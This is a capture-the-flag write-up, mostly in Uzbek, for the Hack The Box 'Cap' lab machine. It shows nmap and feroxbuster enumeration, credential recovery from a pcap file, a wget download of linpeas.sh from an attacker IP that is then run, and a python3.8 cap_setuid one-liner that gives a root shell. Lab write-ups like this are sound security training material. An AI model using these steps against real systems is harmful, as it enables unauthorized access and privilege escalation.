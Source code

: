 HTB - Cap (Linux · Easy) - Writeup

Target IP Address: 10.10.10.245
Difficulty: Easy
---
1. Enumeration - Nmap Scan

Birinchi navbatda ochiq portlarni tekshirish uchun nmap skaneri ishlatildi:
nmap 10.10.10.245
Natija:
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

* 21/tcp (FTP): FTP xizmati ochiq
* 22/tcp (SSH): SSH xizmati ochiq
* 80/tcp (HTTP): Web server ishlamoqda
---
2. Web Enumeration - Directory Bruteforce
Web serverda yashirin kataloglarni topish uchun feroxbuster ishlatildi:
feroxbuster -u http://10.10.10.245 -w /usr/share/wordlists/dirb/common.txt -x .txt,.php,.pcap
Natija:
http://10.10.10.245/data/0
Bu katalogda .pcap fayl mavjud edi.
---
3. Credential Extraction - Wireshark
Paket tahlili uchun data/0 dan .pcap fayl yuklab olindi va Wireshark orqali ochildi.
Filtr ishlatildi:
http.request.method == "POST"
* Natija: Login va parol aniqlandi.
* Kiritilgan Credential: username:password
* SSH orqali tizimga foydalanuvchi sifatida kirdim.
ssh user@10.10.10.245
---
4. Privilege Escalation - Capability Exploit
Foydalanuvchining root bo‘lish imkoniyatlarini tekshirish uchun linpeas.sh ishlatildi:
wget http://10.10.14.59/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
Natija:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

Bu degani, Python 3.8 root huquqlariga ega bo‘lishi mumkin!
GTFOBins'dan foydalanib, root shell olish uchun quyidagi exploit ishlatildi:
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
whoami
Natija:
root
---
5. Flags Submission
* User Flag: /home/user/user.txt
* Root Flag: /root/root.txt
cat /home/user/user.txt
cat /root/root.txt
---
Xulosa
1. Nmap skaneri orqali ochiq portlar aniqlandi.
2. Feroxbuster bilan yashirin katalog topildi.
3. Wireshark orqali .pcap fayldan login credential o‘qib olindi.
4. LinPEAS bilan cap_setuid exploit orqali root huquqlariga ega bo‘lindi.
